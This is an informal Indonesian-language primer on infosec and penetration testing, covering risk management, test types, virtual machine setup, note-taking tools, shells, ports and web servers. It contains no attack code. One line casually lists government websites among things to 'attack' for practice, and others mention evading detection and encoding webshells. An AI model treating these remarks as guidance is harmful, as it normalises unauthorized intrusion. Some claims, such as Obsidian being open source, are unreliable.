







## Infosec Preview 
[Information Security]()(Infosec) itu bidang yang luas dan berkembang pesat dalam beberapa tahun terakhir apalagi setelah kebocoran data pemerintah di Indonesia semakin banyak orang yang menawarkan jasa pengamanan data mereka ke instansi-instansi pemerintah.Bidang ini menawarkan banyak spesialisasi, termasuk:
- **Network and infrastructure security**
- **Application security**
- **Security testing**
- **Systems auditing**
- **Business continuity planning**
- **Digital forensics (OSINT)**
- **Incident detection and response**
Singkatnya Infosec tuh praktik yang ngelindungin data dari akses yang tidak sah (unauthorized) ,perubahan data,penggunaan yang melanggar hukum,Gangguan (Distrubtion),dll. Infosec juga mengambil tindakan dalam mengurangi dampak keseluruhan dari insiden di atas.

:::note
> Data yang dilindungi bukan cuma data digital tapi bisa fisik kyak blueprint atau data tulisan yang berisi pengetahuan,Frasa umum yang akan sering muncul dalam karier infosec adalah melindungi "kerahasiaan, integritas, dan ketersediaan data," atau triad CIA.
:::

## Risk Management Process

Data Security harus fokus pada implementasi kebijakan yang efisien tapi efektif tanpa ada efek samping negatif pada operasi bisnis dan organisasi. Buat mencapai hal ini, organisasi harus mengikuti proses yang disebut *Risk Management Process* . Proses ini ngelibatin lima step berikut


| Step                   | Penjelasan                                                                                                                                                                                                                                                                                                                                                   |
| ---------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Identifying the Risk` | Mengidentifikasi risiko yang dihadapi, seperti risiko serangan, serangan pada environment, penjualan data, dan jenis risiko lainnya.                                                                                                                                                                                                                         |
| `Analyze the Risk`     | Menganalisis risiko untuk menentukan dampak dan probabilitasnya. Risiko harus dipetakan ke berbagai kebijakan, prosedur, dan proses bisnis organisasi. Biasanya hal ini kita temukan di penemuan *CVE*                                                                                                                                                       |
| `Evaluate the Risk`    | Mengevaluasi, memberi peringkat, dan memprioritaskan risiko. Kemudian, organisasi harus memutuskan untuk menerima (hal yang tidak dapat dihindari), menghindari (mengubah rencana), mengendalikan (memitigasi), atau mentransfer risiko (mengasuransikan).                                                                                                   |
| `Dealing with Risk`    | Menghilangkan atau membatasi risiko sebaik mungkin. Ini ditangani dengan berinteraksi langsung dengan para petinggi yang berkepentingan untuk sistem atau proses yang terkait dengan risiko tersebut,ini bisa di ambil dari contoh gw ngelapor ke orang yang memiliki kekuasaan dalam menangani sistem atau proses yang terkait dengan risiko kebocoran data |
| `Monitoring Risk`      | Semua risiko harus terus dipantau. Risiko harus terus dipantau untuk setiap perubahan situasional yang dapat mengubah skor dampaknya, yaitu, dari dampak rendah ke sedang atau tinggi.                                                                                                                                                                       |
seperti yang udah di jelaskan sebelumnnya core dari hal yang berulang ini kyak film TENET ,adalah infosec harus menjamin keamanan Data (CIA), dan memastikan kalau bahwa data tidak diambil dalam bentuk apapun itu ketika insiden terjadi,insiden nya bisa termasuk Bencana alam, malafungsi atau insiden kerentanan massal (Contohnya insiden yang baru-baru ini kyak Crowdstrike).

## Red Team vs. Blue Team

Dalam infosec, kita biasanya mendengar istilah tim merah dan tim biru. Secara sederhana, tim merah berperan sebagai penyerang, sedangkan tim biru berperan sebagai Pelindung,biasanya ini bakal sering ditemuin di acara kayak CTF (Capture The flag) dimana tim biru bakal ngelindungin flag nya pake teknologi yang mereka pake, dan  tim merah yang bakal ngambil flag nya dari tim biru pake teknologi yang mereka pake tergantung aturan mainnya.

### Red Team
Biasanya memainkan peran musuh dalam membobol organisasi untuk mengidentifikasi potensi kelemahan yang mungkin dimanfaatkan penyerang sungguhan untuk menembus pertahanan organisasi. Tugas yang paling umum di sisi tim merah adalah pengujian **PENTEST**, Social Enginering, dan teknik ofensif serupa lainnya.
### Blue Team
Membentuk sebagian besar pekerjaan infosec. Bertanggung jawab untuk memperkuat pertahanan organisasi dengan menganalisis risiko, membuat kebijakan, menanggapi ancaman dan insiden, dan secara efektif menggunakan alat keamanan dan tugas serupa lainnya.

## Peran Penetration Testers

Seorang security assessor (network penetration tester, web application penetration tester, red teamer, etc) membantu organisasi mengidentifikasi risiko di jaringan eksternal dan internalnya. Risiko ini dapat mencakup kerentanan jaringan atau aplikasi web,  sensitive data exposure, kesalahan konfigurasi, atau masalah yang dapat menyebabkan kerusakan reputasi. Penguji yang baik dapat bekerja dengan klien untuk mengidentifikasi risiko bagi organisasi mereka, memberikan informasi tentang cara mereproduksi risiko ini, dan panduan untuk memitigasi atau memperbaiki masalah yang teridentifikasi selama pengujian.

Penilaian dapat mengambil berbagai bentuk, dari pengujian penetrasi **White Box** terhadap semua sistem dan aplikasi dalam lingkup untuk mengidentifikasi sebanyak mungkin kerentanan, hingga penilaian phishing untuk menilai risiko atau kesadaran keamanan karyawan, hingga penilaian tim merah yang ditargetkan yang dibangun di sekitar skenario untuk meniru pelaku ancaman dunia nyata.

> [!WIKI WHITE BOX]
> Pengujian *White Box* adalah metode pengujian perangkat lunak yang menguji struktur internal atau cara kerja aplikasi, yang bertentangan dengan fungsinya. Dalam pengujian kotak putih, perspektif internal sistem digunakan untuk merancang kasus uji.

Kita harus memahami gambaran yang lebih besar dari risiko yang dihadapi organisasi dan lingkungannya untuk mengevaluasi dan menilai kerentanan yang ditemukan selama pengujian secara akurat. Pemahaman yang mendalam tentang proses manajemen risiko sangat penting bagi siapa pun yang memulai di bidang keamanan informasi.

sebelum lanjut
dalam penetration testing. ada 3 tipe, `black-box`, `grey-box`, and `white-box`,dan mereka berbeda dan memiliki tujuan yang beda juga.

| **Engagement** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Black-Box`    | Penguji penetrasi memiliki sedikit atau bahkan tanpa pengetahuan awal mengenai target. Mereka harus melakukan penyelidikan mendalam untuk mempelajari target tersebut. Ini bisa berupa penetration test eksternal di mana penguji hanya diberikan nama perusahaan tanpa informasi lebih lanjut seperti alamat IP target, atau penetration test internal di mana penguji harus melewati kontrol keamanan untuk mendapatkan akses awal ke jaringan atau dapat terhubung ke jaringan internal tetapi tidak memiliki informasi tentang jaringan/host internal. Jenis penetration test ini paling mirip dengan serangan nyata, tetapi tidak sekomprehensif jenis penilaian lainnya dan bisa saja melewatkan beberapa kesalahan konfigurasi/kerentanan. |
| `Grey-Box`     | Dalam pengujian grey-box, penguji diberikan sejumlah informasi di awal. Ini bisa berupa daftar alamat IP/rentang yang termasuk dalam cakupan pengujian, kredensial tingkat rendah ke aplikasi web atau Active Directory, atau beberapa diagram aplikasi/jaringan.Tipe penetration test ini dapat mensimulasikan orang dalam yang berniat jahat atau melihat apa yang dapat dilakukan penyerang dengan akses tingkat rendah. Dalam skenario ini, penguji biasanya akan menghabiskan lebih sedikit waktu untuk pengintaian dan lebih banyak waktu untuk mencari kesalahan konfigurasi dan mencoba melakukan eksploitasi.                                                                                                                            |
| `White-Box`    | Dalam jenis pengujian ini, penguji diberikan akses penuh. Dalam pengujian aplikasi web, mereka mungkin diberikan kredensial tingkat administrator, akses ke kode sumber, diagram pembangunan, dll., untuk mencari kerentanan logika dan kelemahan lain yang sulit ditemukan. Dalam pengujian jaringan, mereka mungkin diberikan kredensial tingkat administrator untuk menggali lebih dalam ke Active Directory atau sistem lain untuk mencari kesalahan konfigurasi yang mungkin terlewatkan. Jenis penilaian ini sangat komprehensif karena penguji akan memiliki akses ke kedua sisi target dan melakukan analisis menyeluruh.                                                                                                                 |


---

## Getting Started Pentest Distro

Siapa pun yang ingin memulai jalur teknis dalam keamanan informasi harus merasa nyaman dengan berbagai macam teknologi dan sistem operasi. Sebagai penguji penetrasi (pentester), kita harus memahami cara mengatur, memelihara, dan mengamankan mesin serangan Linux dan Windows. Bergantung pada lingkungan klien atau lingkup penilaian, kita mungkin menggunakan VM Linux atau Windows di mesin kita, sistem operasi dasar kita, kotak Linux cloud, VM yang diinstal dalam lingkungan klien, atau bahkan melakukan pengujian langsung dari workstation milik klien untuk mensimulasikan ancaman orang dalam (skenario assume breach).

Sipapun yang mau mulai jalur pentest dalam apapun harus ngerasa nyaman sama berbagai ,aca, teknologi dan sistem operasi,Sebagai Penguji penetrasi (Pentester), kita harus memahami cara mengatur,memelihara, dan mengamankan mesin mau itu **LINUX** ataupun **WINDOWS** . Bergantung pada environtment klien atau lingkup uji oba, tapi kita mungkin bisa menggunakan VM Linux atau WIndows di dalam sistem operasi kita (Internal), atau menggunakan VPS Cloud Linux, hal ini bisa ngebantu 2 tim ,sebagai seorang pentester ,kamu bakal lebih susah di deteksi dan dapat berganti-ganti Distro dimanapun kapanpun, dan sebagai Blue Team Defender, hal ini udah sering banget dipake buat  mensimulasikan ancaman orang dalam (skenario assume breach).,hal ini bisa dibuktikan kalau data pemerintah di simpen di Virtual Machine sebelumnnya, dan lebih aman karna direktori nya dibuat terpisah,jadi gw saranin cobain buat virtual machine pake virtualbox atau VMware buat nyoba beberapa Distro buat paham gimana teknologi itu jalan

## Memilih Distro

Pilihan distro bersifat individual, dan, seperti yang disebutkan, kita bahkan dapat memilih untuk membuat dan memelihara sendiri dari awal. Ada banyak distro Linux di luar sana yang melayani berbagai tujuan, beberapa secara eksplisit disesuaikan untuk pengujian penetrasi, yang lain diarahkan untuk pengujian penetrasi aplikasi web, forensik, dll.

## Menyiapkan Distro buat Pentest

Ada banyak cara untuk menyiapkan distro pentest lokal kita. Kita bisa:
- **Menginstalnya sebagai sistem operasi utama:** Meskipun tidak disarankan karena alasan keamanan dan stabilitas sistem.
- **Mengkonfigurasi dual boot:** Memungkinkan penggunaan dua sistem operasi berbeda pada satu komputer, tapi memakan waktu untuk beralih di antara keduanya.
- **Menggunakan VM(Virtual Machine):** Opsi paling umum dan direkomendasikan, karena menyediakan isolasi dan fleksibilitas.

### Opsi Virtualisasi:

- **Hypervisor bawaan:** Seperti Hyper-V di Windows.
- **Hypervisor bare-metal:** Seperti Proxmox atau VMware ESXi, diinstal langsung pada perangkat keras server.
- **Hypervisor gratis:** Seperti VirtualBox atau VMware Workstation Player, dapat diinstal di Windows atau Linux.
- **Hypervisor berbayar:** Seperti VMware Workstation, menawarkan lebih banyak fitur dan kinerja.

## Apa itu Hypervisor?

Hypervisor adalah perangkat lunak yang memungkinkan kita membuat dan menjalankan mesin virtual (VM). Dengan hypervisor, kita bisa menjalankan beberapa VM sekaligus di komputer host kita (desktop atau laptop), dengan masing-masing VM memiliki sistem operasi dan aplikasi sendiri yang terisolasi.

### **Manfaat Virtualisasi:**

- **Isolasi:** VM berjalan terpisah dari sistem operasi utama, melindungi jaringan produksi dan data sensitif dari potensi risiko kehilangan atau rusak selama pengujian penetrasi.
- **Fleksibilitas:** Memungkinkan kita dengan cepat membuat, menghapus, dan mengonfigurasi VM sesuai kebutuhan untuk berbagai skenario pengujian.
- **Efisiensi:** Memaksimalkan penggunaan sumber daya perangkat keras dengan menjalankan beberapa VM sekaligus.

### Pentingnya VM dalam Keamanan Informasi

- **Pengujian eksploitasi:** Menguji kerentanan dan eksploitasi di lingkungan yang aman dan terisolasi.
- **Rekayasa ulang aplikasi:** Membuat ulang aplikasi target untuk analisis dan pengujian lebih lanjut.
- **Eksperimen dengan alat dan teknik:** Mempelajari dan berlatih menggunakan alat dan teknik keamanan terbaru.
- **Membangun lab Sendiri:** Menyediakan lingkungan yang aman dan terkendali untuk berlatih dan meningkatkan keterampilan keamanan.

dalam membangun virtual machine kita bisa memilih dua format
- `Optical disc image (ISO)`
- `Open Virtual Appliance (OVA)`

## ISO (Recomendation Akmal)
File ISO pada dasarnya adalah CD-ROM yang bisa dipasang di dalam hypervisor pilihan kita untuk membangun VM dengan menginstal sistem operasi sendiri. ISO memberi kita lebih banyak ruang untuk kustomisasi, misalnya tata letak keyboard, lokal, pergantian lingkungan desktop, partisi kustom, dll., dan karenanya pendekatan yang lebih terperinci saat menyiapkan VM serangan kita.

## OVA
File OVA adalah appliance virtual dan bukan Episode tambahan di Anime, appliance virtual yang sudah dibuat sebelumnya yang berisi file OVF XML yang menentukan pengaturan perangkat keras VM dan VMDK, yang merupakan disk virtual tempat sistem operasi diinstal. OVA sudah dibuat sebelumnya dan karenanya dapat digunakan dengan cepat untuk memulai dan berjalan lebih cepat.


---

## Tetap Terlihat Rapih

gw adalah orang yang ngasih nama folder nama random pas gw mulai projek gw dan gw tinggalin file nya dan pas gw mau cek gw lupa nama foldernya, ini yang bikin gw nyesel, tapi ketika lu mau nyoba ngelakuin pentest ,main CTF atau  ngikutin kursus ,tetap harus terlihat rapih dan dokumentasi yang rinci kayak nambahin note README.md buat file yang di maksud bertujuan untuk apa.Keterampilan ini bakal bermanfaat bagi kita, apa pun jalur yang kita ambil dalam keamanan informasi atau bahkan jalur karier lainnya.

## Folder Structure

Saat menyerang satu box uji coba, lab, atau lingkungan klien, kita harus memiliki struktur folder yang jelas di mesin serangan kita untuk menyimpan data seperti: informasi scoping, data enumerasi, bukti upaya eksploitasi, data sensitif seperti kredensial, dan data lain yang diperoleh selama pengintaian, eksploitasi, dan pasca-eksploitasi. Contoh struktur folder dapat terlihat seperti berikut:

```shell-session
Projects/
└── Acme Company
    ├── EPT
    │   ├── evidence
    │   │   ├── credentials
    │   │   ├── data
    │   │   └── screenshots
    │   ├── logs
    │   ├── scans
    │   ├── scope
    │   └── tools
    └── IPT
        ├── evidence
        │   ├── credentials
        │   ├── data
        │   └── screenshots
        ├── logs
        ├── scans
        ├── scope
        └── tools
```

Di sini kita memiliki folder untuk klien Acme Company dengan dua penilaian, Internal Penetration Test (IPT) dan External Penetration Test (EPT). Di bawah setiap folder, kita memiliki subfolder untuk menyimpan data pemindaian, alat yang relevan, output logging, informasi scoping (yaitu, daftar IP/jaringan untuk dimasukkan ke alat pemindaian kita), dan folder bukti yang mungkin berisi kredensial apa pun yang diambil selama penilaian, data yang relevan apa pun yang diambil serta tangkapan layar.

Ini preferensi pribadi, tapi beberapa orang buat folder untuk setiap host target dan menyimpan tangkapan layar di dalamnya. Yang lain mengatur catatan mereka berdasarkan host atau jaringan dan menyimpan tangkapan layar langsung ke aplikasi note. Bereksperimenlah dengan struktur folder dan lihat apa yang paling cocok untuk lu agar tetap teratur dan bekerja efisien.

## Note Taking Tools

gw tau lu pasti udah punya aplikasi buat naro note ,mungkin itu digital atau mungkin note secara fisik, tapi beberapa case sang pentester membutuhkan note yang banyak,selain kita harus milih aplikasi note yang ringan , kita juga harus punya aplikasi note yang tertata rapih biar kita ga pusing naro note tentang insiden/kasus forensik terkait di 1 folder yang sama, dan ada beberapa saran yang disaranin ahli/Profesional Diluar negri yang nyaranin aplikasi berikut:

| [Cherrytree](https://www.giuspen.com/cherrytree)     | [Visual Studio Code](https://code.visualstudio.com) | [Evernote](https://evernote.com)            |
| ---------------------------------------------------- | --------------------------------------------------- | ------------------------------------------- |
| [Notion](https://www.notion.so)                      | [GitBook](https://www.gitbook.com)                  | [Sublime Text](https://www.sublimetext.com) |
| [Notepad++](https://notepad-plus-plus.org/downloads) | [Obsidian](https://obsidian.md/)                    |                                             |
### Obsidian (Recomendation Akmal)

Kayak yang lu tau tulisan ini gw tulis di aplikasi *Obsidian* ,karna obisidian punya banyak kelebihan daripada note-note lainnya yang mengejutkan ngebantu banget produktivitas gw dalam ngetik blog atau latihan bikin cerita/novel, beberapa kelebihannya antaranya:
**1. Fleksibilitas dan Kustomisasi:**
- **Markdown:** Obsidian menggunakan format Markdown yang sederhana dan mudah dipelajari, memungkinkan penulisan catatan yang terstruktur dan mudah dibaca (Ini yang bikin gw nyaman,sama kyak Notion).
- **Plugin:** Obsidian memiliki ekosistem plugin yang kaya, memungkinkan Anda menambahkan fitur-fitur khusus untuk keamanan informasi, seperti diagram jaringan, enkripsi catatan, dan integrasi dengan alat keamanan lainnya.
- **Tema:** Obsidian mendukung berbagai tema visual, memungkinkan Anda menyesuaikan tampilan aplikasi sesuai preferensi Anda.

**2. Penghubung Antar Catatan:**
- **Internal Linking:** Obsidian memungkinkan Anda membuat tautan internal antar catatan, membentuk jaringan pengetahuan yang saling terhubung. Ini sangat berguna untuk menghubungkan informasi tentang kerentanan, eksploitasi, dan teknik serangan.
- **Graph View:** Tampilan grafik visual membantu Anda melihat hubungan antar catatan, memudahkan navigasi dan pemahaman tentang struktur informasi Anda.

**3. Keamanan dan Privasi:**
- **Penyimpanan Lokal:** Obsidian menyimpan catatan Anda secara lokal di perangkat Anda, memberikan kontrol penuh atas data Anda dan mengurangi risiko kebocoran informasi sensitif.
- **Enkripsi:** Anda dapat menggunakan plugin enkripsi untuk melindungi catatan yang berisi informasi rahasia atau data klien.

**4. Dukungan Komunitas:**
- **Open Source:** Obsidian adalah proyek open source dengan komunitas yang aktif dan suportif, menyediakan banyak sumber daya, tutorial, dan bantuan.

**5. Fitur Tambahan:**
- **Mode Fokus:** Membantu Anda berkonsentrasi pada penulisan tanpa gangguan.
- **Pencarian:** Pencarian cepat dan efisien untuk menemukan informasi yang Anda butuhkan.
- **Versi Control:** Memungkinkan Anda melacak perubahan pada catatan Anda dan kembali ke versi sebelumnya jika diperlukan.
- **Multi-platform:** Obsidian tersedia di berbagai platform, termasuk Windows, macOS, Linux, iOS, dan Android, sehingga Anda dapat mengakses catatan Anda dari mana saja.

dari kelebihan di atas mungkin lu bisa coba yang lain kyak notion atau yang lain.

### Coming up
selanjut nya kita bakal bahas pentest basic dimana ini kita bakal mulai mahamin beberapa tools dasar dan topologi jaringan yang bakal gw jelasin secara random atau ter struktur kalau gw ga ngantuk


---

# Common Terms

Pengujian penetrasi/peretasan adalah bidang yang sangat luas. Kita akan menemukan banyak sekali teknologi sepanjang karier kita. Berikut adalah beberapa istilah dan teknologi paling umum yang akan sering kita temui dan harus kita pahami dengan baik. Ini bukan daftar lengkap tapi mungkin mencakup beberapanya

## What is a Shell?

Shell adalah istilah yang sangat umum yang akan sering kita dengar selama perjalanan kita,mungkin lu sering liat gw buka terminal di laptop gw, itu juga bisa disebut sebagai shell. Ini memiliki beberapa arti. Pada sistem Linux, shell adalah program yang menerima masukan dari pengguna melalui keyboard dan meneruskan perintah ini ke sistem operasi untuk melakukan fungsi tertentu. Pada masa-masa awal komputasi, shell adalah satu-satunya antarmuka yang tersedia untuk berinteraksi dengan sistem. Sejak itu, lebih banyak jenis dan versi sistem operasi telah muncul bersama dengan antarmuka pengguna grafis (GUI) untuk melengkapi antarmuka baris perintah (shell), seperti terminal Linux, baris perintah Windows (cmd.exe), dan Windows PowerShell.

Sebagian besar sistem Linux menggunakan program yang disebut Bash (Bourne Again Shell) sebagai program shell untuk berinteraksi dengan sistem operasi. Bash adalah versi sh yang ditingkatkan, program shell asli sistem Unix. Selain bash, ada juga shell lain, termasuk tetapi tidak terbatas pada *`Zsh, Tcsh, Ksh, Fish shell, dll.`*

Kita akan sering membaca atau mendengar orang lain berbicara tentang "getting a shelll" di sebuah box (system). Ini berarti host target telah dieksploitasi, dan kita telah memperoleh akses tingkat shell (biasanya bash atau sh) dan dapat menjalankan perintah secara interaktif seolah-olah kita sedang duduk masuk ke host. Shell dapat diperoleh dengan mengeksploitasi aplikasi web atau kerentanan jaringan/layanan atau mendapatkan kredensial dan masuk ke host target dari jarak jauh. Ada tiga jenis utama koneksi shell:

| **Shell Type**  | **Description**                                                                                                                                                                                                                                                                |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Reverse shell` | Memulai koneksi kembali ke "listener" di box serangan kita.                                                                                                                                                                                                                    |
| `Bind shell`    | "Binds" ke port tertentu pada host target dan menunggu koneksi dari kotak serangan kita.                                                                                                                                                                                       |
| `Web shell`     | Menjalankan perintah sistem operasi melalui browser web, biasanya tidak interaktif atau semi-interaktif. Ini juga dapat digunakan untuk menjalankan perintah tunggal (misalnya, memanfaatkan kerentanan unggah file dan mengunggah skrip PHP untuk menjalankan satu perintah). |

:::note
> Foto yang mungkin lu pernah liat berisi webshell yang dimaksudkan untuk menjalankan perintah skrip PHP terkadang berakhir bisa terbaca ,jadi beberapa webshell sengaja di encode agar teks dari kode webshell tidak bisa terbaca dan di lacak , makanya webshell adalah hal yang paling sering ditemukan di dunia hacker di indonesia (Noob one)
:::

Setiap jenis shell memiliki kasus penggunaannya, dan dengan cara yang sama ada banyak cara untuk mendapatkan shell, program pembantu yang kita gunakan untuk mendapatkan shell dapat ditulis dalam banyak bahasa (Python, Perl, Go, Bash, Java, awk, PHP, dll.). Ini bisa berupa skrip kecil atau program yang lebih besar dan lebih kompleks untuk memfasilitasi koneksi dari host target kembali ke sistem penyerang kita dan mendapatkan akses "shell". Akses shell akan dibahas secara mendalam di bagian selanjutnya.

## What is a Port?

Bayangin port itu kayak jendela/Pintu di sebuah rumah, nah sekarang bayangin rumah nya itu Komputer lu,atai sistem yang bisa di akses jarak jauh ,intinya biasanya isinya IP address, jika jendela atau pintu dibiarkan terbuka atau tidak dikunci dengan benar, kita sering dapat memperoleh akses tidak sah ke rumah. Ini serupa dalam komputasi. Port adalah titik virtual tempat koneksi jaringan dimulai dan berakhir. Mereka berbasis perangkat lunak dan dikelola oleh sistem operasi host. Port dikaitkan dengan proses atau layanan tertentu dan memungkinkan komputer untuk membedakan antara berbagai jenis traffic (traffic SSH yang berjalan ke port yang berbeda dari permintaan web untuk mengakses situs web meskipun permintaan akses dikirim melalui koneksi jaringan yang sama).

Setiap port diberi nomor, dan banyak yang distandarisasi di semua perangkat yang terhubung ke jaringan (meskipun layanan dapat dikonfigurasi untuk berjalan pada port non-standar). Misalnya, pesan HTTP (lalu lintas situs web) biasanya pergi ke port 80, sedangkan pesan HTTPS pergi ke port 443 kecuali dikonfigurasi sebaliknya. Kita akan menemukan aplikasi web yang berjalan pada port non-standar tetapi biasanya menemukannya di port 80 dan 443. Nomor port memungkinkan kita untuk mengakses layanan atau aplikasi tertentu yang berjalan pada perangkat target. Pada tingkat yang sangat tinggi, port membantu komputer memahami cara menangani berbagai jenis data yang mereka terima.

Ada dua kategori port, Transmission Control Protocol (TCP), dan User Datagram Protocol (UDP).
- **TCP:** Berorientasi koneksi, artinya koneksi antara klien dan server harus dibuat sebelum data dapat dikirim. Server harus dalam keadaan listening state menunggu permintaan koneksi dari klien.
- **UDP:** Menggunakan model komunikasi tanpa koneksi. Tidak ada "Handshake" dan karenanya memperkenalkan sejumlah ketidakandalan karena tidak ada jaminan pengiriman data. UDP berguna ketika koreksi/pemeriksaan kesalahan tidak diperlukan atau ditangani oleh aplikasi itu sendiri. UDP cocok untuk aplikasi yang menjalankan tugas sensitif karena nge drop paket lebih cepat daripada menunggu paket yang tertunda karena transmisi ulang, seperti halnya dengan TCP dan dapat secara signifikan memengaruhi sistem waktu nyata.

Ada **65.535 port TCP dan port UDP** yang berbeda, masing-masing dilambangkan dengan angka. Beberapa port TCP dan UDP yang paling terkenal yang pasti bakal sering diliat seperti:

| Port(s)         | Protocol              |
| --------------- | --------------------- |
| `20`/`21` (TCP) | `FTP`                 |
| `22` (TCP)      | `SSH`                 |
| `23` (TCP)      | `Telnet`              |
| `25` (TCP)      | `SMTP`                |
| `80` (TCP)      | `HTTP`                |
| `161` (TCP/UDP) | `SNMP`                |
| `389` (TCP/UDP) | `LDAP`                |
| `443` (TCP)     | `SSL`/`TLS` (`HTTPS`) |
| `445` (TCP)     | `SMB`                 |
| `3389` (TCP)    | `RDP`                 |
Sebagai seorang yang profesional, kita harus dapat dengan cepat mengingat informasi dalam jumlah besar tentang berbagai port di atas. Sangat penting bagi kita, terutama sebagai pentester, untuk memiliki pemahaman yang kuat tentang banyak port TCP dan UDP dan dapat mengenalinya dengan cepat hanya dari nomornya (yaitu, tahu bahwa port 21 adalah FTP, port 80 adalah HTTP, port 88 adalah Kerberos) tanpa harus mencarinya. Ini akan datang dengan latihan dan pengulangan dan akhirnya menjadi kebiasaan kedua saat kita menyerang lebih banyak box, website pemerintah, lab, dan jaringan dunia nyata dan membantu kita bekerja lebih efisien dan memprioritaskan upaya **enumerasi** dan serangan kita dengan lebih baik.

Panduan seperti [ini](https://www.speedguide.net/port.php) dan [ini](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) adalah sumber yang bagus untuk mempelajari port TCP dan UDP standar dan yang kurang umum. Tantang diri Anda untuk menghafal sebanyak mungkin port ini dan lakukan riset tentang masing-masing protokol yang tercantum dalam tabel di atas. Ini adalah referensi yang bagus mengenai 1.000 port TCP dan UDP teratas dari nmap beserta 100 layanan teratas yang dipindai oleh **nmap**.

## What is a Web Server

Web server adalah sebuah aplikasi yang berjalan di sisi server (backend), yang menangani semua lalu lintas HTTP dari browser sisi klien, mengarahkannya ke halaman tujuan permintaan, dan akhirnya merespons ke browser sisi klien. Web server biasanya berjalan pada port TCP 80 atau 443, dan bertanggung jawab untuk menghubungkan pengguna akhir ke berbagai bagian aplikasi web, selain menangani berbagai respons mereka:

Karena aplikasi web cenderung terbuka untuk interaksi publik dan menghadap internet, mereka dapat menyebabkan server backend dikompromikan jika mereka mengalami kerentanan. Aplikasi web dapat menyediakan permukaan serangan yang luas, menjadikannya target bernilai tinggi bagi penyerang dan pentester.

